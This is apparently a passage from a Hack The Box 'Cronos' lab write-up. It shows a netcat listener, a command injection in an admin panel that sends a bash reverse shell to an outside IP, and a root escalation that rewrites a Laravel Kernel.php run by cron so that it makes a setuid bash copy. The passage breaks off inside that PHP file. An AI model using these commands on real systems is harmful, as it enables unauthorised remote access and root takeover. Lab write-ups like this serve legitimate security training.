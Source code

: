 #### Start `netcat` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Cronos]
└─$ nc -lvnp 4444               
listening on [any] 4444 ...
```

#### Exploit command injection to 
```
┌──(magicrc㉿perun)-[~/attack/HTB Cronos]
└─$ curl -s -c cookies.txt http://admin.cronos.htb/ -d 'username=admin&password=1327663704' -o /dev/null && \
COMMAND=$(echo "/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.17/4444 0>&1'" | jq -sRr @uri) && \
curl -b cookies.txt http://admin.cronos.htb/welcome.php -d "command=$COMMAND"
```

#### Confirm foothold gained
```
connect to [10.10.16.17] from (UNKNOWN) [10.129.227.211] 44912
bash: cannot set terminal process group (1363): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cronos:/var/www/admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Escalate to `root` by adding root shell spawn Laravel scheduled task

#### Modify `/var/www/laravel/app/Console/Kernel.php` to create root shell
Misconfigured cronjob has been identified by `linpeas`.

`* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1`

```
cat <<'EOF'> /var/www/laravel/app/Console/Kernel.php
<?php

namespace App\Console;

use Illuminate\Console\Scheduling\Schedule;
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;

class Kernel extends ConsoleKernel
{
    /**
     * The Artisan commands provided by your application.
     *
     * @var array
     */
    protected $commands = [
        //
    ];

    /**
     * Define the application's command schedule.
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
        $schedule->exec('cp /bin/bash /tmp/root_shell; chmod +s /tmp/root_shell')->everyMinute();
    }
```